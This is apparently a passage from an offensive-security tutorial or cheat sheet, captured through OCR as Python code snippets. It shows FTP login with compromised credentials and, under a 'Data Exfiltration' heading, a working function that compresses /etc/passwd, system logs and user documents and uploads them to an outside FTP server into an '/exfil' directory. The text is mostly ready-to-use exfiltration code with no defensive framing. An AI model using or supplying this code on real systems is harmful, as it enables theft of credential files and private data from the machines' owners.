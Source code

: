 ```python
# Connect to FTP server
ftp = ftplib.FTP('192.168.1.10')
ftp.login('compromised_user', 'compromised_password')

# Upload an entire directory
upload_directory(ftp, '/local/data', '/remote/data')

# Close connection
ftp.quit()
```

### Data Exfiltration

```python
import ftplib
import os
import tarfile
import tempfile

def exfiltrate_data(ftp, target_dirs, remote_dir):
    """Compress and exfiltrate data from target directories"""
    
    # Create a temporary archive
    with tempfile.NamedTemporaryFile(suffix='.tar.gz', delete=False) as temp_file:
        temp_path = temp_file.name
    
    # Compress target directories
    with tarfile.open(temp_path, 'w:gz') as tar:
        for directory in target_dirs:
            if os.path.exists(directory):
                tar.add(directory, arcname=os.path.basename(directory))
    
    # Upload to FTP server
    try:
        ftp.mkd(remote_dir)
    except ftplib.error_perm:
        pass  # Directory might already exist
    
    ftp.cwd(remote_dir)
    
    with open(temp_path, 'rb') as f:
        ftp.storbinary(f'STOR exfiltrated_data.tar.gz', f)
    
    # Clean up
    os.unlink(temp_path)

# Connect to FTP server
ftp = ftplib.FTP('192.168.1.10')
ftp.login('compromised_user', 'compromised_password')

# Exfiltrate sensitive directories
exfiltrate_data(ftp, ['/etc/passwd', '/var/log', '/home/user/documents'], '/exfil')

# Close connection
ftp.quit()
```
